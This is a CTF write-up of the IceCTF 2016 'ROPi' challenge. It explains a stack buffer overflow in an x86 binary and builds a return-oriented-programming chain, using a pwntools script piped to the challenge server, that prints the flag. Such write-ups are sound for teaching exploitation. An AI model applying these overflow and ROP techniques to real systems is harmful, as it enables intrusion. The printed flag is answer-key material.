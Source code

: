 Title: IceCTF 2016 - ROPi
Date: 2016-08-21 18:11
Category: CTF
Tags: icectf2016 ctf pwn
Slug: icectf-2016-ropi
Authors: wumb0

Challenge description:
> Ritorno orientata programmazione nc ropi.vuln.icec.tf 6500

The binary provided with the challenge was an x86 ELF. I started by reversing it with radare2:
<script type="text/javascript" src="https://asciinema.org/a/0e10sx4jp4ixg0hrrgoxjk3d1.js" id="asciicast-0e10sx4jp4ixg0hrrgoxjk3d1" async></script>
Feel free to stop the video above to look at the functions!
The main function just calls ezy, which `read`s 0x40 bytes on top of a buffer that is 0x28 bytes in size. This means that we are running 0x18 bytes over the buffer. The first 4 bytes after those 0x28 overwrite the saved EBP and then the next 4 overwrite EIP. To test this theory we load up the binary in gdb and put in 0x28 bytes, plus BBBB to overwrite EBP, then iiii to overwrite EIP:

<script type="text/javascript" src="https://asciinema.org/a/cibcbemfhn7m5x5bqu131bijk.js" id="asciicast-cibcbemfhn7m5x5bqu131bijk" async></script>

Ok so we have program control. Nice! Now what? Since the program is called **ROP**i I started looking for things to jump to. I actually spent a lot of time trying to find gadgets to write an actual ROP chain. I was stumped for a bit and asked Chris Eagle for some advice because he had solved the challenge for Samurai earlier in the week. He pointed out that there are uncalled functions. If you look in the r2 video above, you can see there are three functions right after ezy in the function list (afl): `ret`, `ori`, and `pro`. After disassembling and reversing them it was clear what the intended solution was:
<script type="text/javascript" src="https://asciinema.org/a/az9litz1gxi1s7nmiq8qifqik.js" id="asciicast-az9litz1gxi1s7nmiq8qifqik" async></script>
The `ret` (0x8048569) function calls open("./flag.txt", 0), the `ori` (0x80485c4) function calls read(dati, 0x80, fd) where fd is the file descriptor opened by open previously and dati is the buffer to read to, and `pro` (0x804862c) calls printf("%s", dati). So the proper solution is to use return oriented programming to call all of these functions in order. There is one trick, however. If you look closely at `ret` and `ori` you will see that there is a condition that needs to be met in order for the functions to not hard exit. For `ret`, ebp-8 must be 0xbadbeeef and for `ori`, either ebp-8 must equal 0xabcdefff or ebp-0xc must equal 0x78563412. To start I just tried calling `ret` then `ori` so I needed to set up my buffer as follows:

[0x2c bytes padding][address of ret][address of ori][0xbadbeeef][0xabcdefff]

My attempt in gdb:
<script type="text/javascript" src="https://asciinema.org/a/2gc2jpuhs4wkzcht7l2hxg1xw.js" id="asciicast-2gc2jpuhs4wkzcht7l2hxg1xw" async></script>
It looks like `ret` and `ori` were successfully called! Since this will call `ret`, then `ori`, there is no place to put the address of `pro` to call because of the condition that needs to be meet in `ret` (0xbadbeeef). To solve this, I can actually re-use the `ezy` function to read in the buffer again. With this in mind I tried setting up my buffer as follows:

[0x2c bytes padding][address of ret][address of ezy][0xbadbeef][newline][cyclic(100)]

The reason for the cyclic pattern is to figure out at what offset I needed to overflow in ezy the second time in order to regain EIP control. This is shown below:
<script type="text/javascript" src="https://asciinema.org/a/bbe9bvl7z6cirpsk60trf28vy.js" id="asciicast-bbe9bvl7z6cirpsk60trf28vy" async></script>

Looks like I need to write 51 bytes after calling ezy again and then I can overwrite the return. So the final buffer should look as follows:

[0x2c bytes padding][address of ret][address of ezy][0xbadbeeef][newline][51 bytes of padding][address of ori][address of ezy][0xabcdefff][newline][51 bytes of padding][address of pro]

I wrote a quick pwntools script to do just this:
```python
from pwn import *
context.log_level = 'error'
e = ELF("./ropi")

print(cyclic(0x2c) + p32(e.symbols['ret']) + p32(e.symbols['ezy']) + p32(0xbadbeeef))
print(cyclic(51) + p32(e.symbols['ori']) + p32(e.symbols['ezy']) + p32(0xabcdefff))
print(cyclic(51) + p32(e.symbols['pro']))
```

```bash
python ropi.py | nc ropi.vuln.icec.tf 6500
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[+] aperto
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[+] leggi
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[+] stampare
IceCTF{italiano_ha_portato_a_voi_da_google_tradurre}
```
Flag obtained: **IceCTF{italiano_ha_portato_a_voi_da_google_tradurre}**
